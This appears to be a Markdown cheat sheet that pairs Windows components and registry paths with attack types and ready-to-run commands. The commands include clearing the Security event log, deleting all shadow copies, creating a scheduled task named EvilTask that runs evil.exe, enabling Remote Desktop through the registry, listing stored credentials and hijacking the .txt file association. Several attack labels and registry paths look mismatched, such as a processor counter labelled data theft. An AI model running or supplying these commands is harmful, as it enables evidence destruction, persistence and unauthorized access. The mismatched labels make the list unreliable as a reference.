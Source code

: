 ### Windows Event Viewer Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\EventViewer`  
**Attacks:** Log Manipulation, Evidence Tampering  
**Codes:** `wevtutil cl Security`

### Windows Performance Monitor Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Perflib`  
**Attacks:** System Monitoring, Data Theft  
**Codes:** `logman create counter EvilMonitor -o "C:\evil.log" -f csv -v mmddhhmm -c "\Processor(_Total)\% Processor Time"`

### Windows Power Configuration Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Power`  
**Attacks:** Energy Consumption Manipulation, Denial of Service  
**Codes:** `powercfg /hibernate off`

### Windows Credential Manager Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Cryptography\Protect\Providers\df9d8cd0-1501-11d1-8c7a-00c04fc297eb`  
**Attacks:** Credential Theft, Data Decryption  
**Codes:** `cmdkey /list`

### Windows Task Scheduler Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache`  
**Attacks:** Scheduled Task Manipulation, Persistence  
**Codes:** `schtasks /create /tn EvilTask /tr evil.exe /sc daily`

### Windows System Restore Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore`  
**Attacks:** System Restore Manipulation, Evidence Tampering  
**Codes:** `vssadmin delete shadows /all`

### Windows Remote Management Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WSMAN`  
**Attacks:** Unauthorized Remote Access, System Control  
**Codes:** `winrm quickconfig -q`

### Windows Remote Desktop Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server`  
**Attacks:** Unauthorized Remote Access, System Control  
**Codes:** `reg add HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 0`

### Windows Remote Assistance Control
**Registry Path:** `HKLM\SOFTWARE\Policies\Microsoft\Assistance\Client\1.0`  
**Attacks:** Unauthorized Remote Access, System Control  
**Codes:** `msra /offerRA`

### Windows File Association Control
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts`  
**Attacks:** File Association Hijacking, Malware Execution  
**Codes:** `assoc .txt=evilprogid`
